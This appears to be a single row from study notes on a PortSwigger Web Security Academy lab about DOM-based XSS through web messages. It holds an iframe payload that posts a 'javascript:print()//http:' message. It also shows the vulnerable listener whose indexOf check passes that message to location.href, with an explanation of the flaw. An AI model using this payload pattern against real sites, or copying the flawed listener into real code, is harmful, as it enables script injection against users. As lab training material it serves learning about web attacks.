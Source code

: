|60    |DOM XSS using web messages and a JavaScript URL                                                                          |<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">    <script>                         window.addEventListener('message', function(e) {                             var url = e.data;                             if (url.indexOf('http:') > -1 &#124;&#124; url.indexOf('https:') > -1) {                                 location.href = url;                             }                         }, false);                     </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |Home page contains an addEventListener() call that listens for a web message. The JavaScript contains a flawed indexOf() check that looks for the strings “http:” or “https:”  Payload sends a web message containing an arbitrary JavaScript payload to the main page. Event listener spots the “http:” string and sends the payload to the location.href sink, where the print() function is called.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |DOM-Based, Practitioner                     |
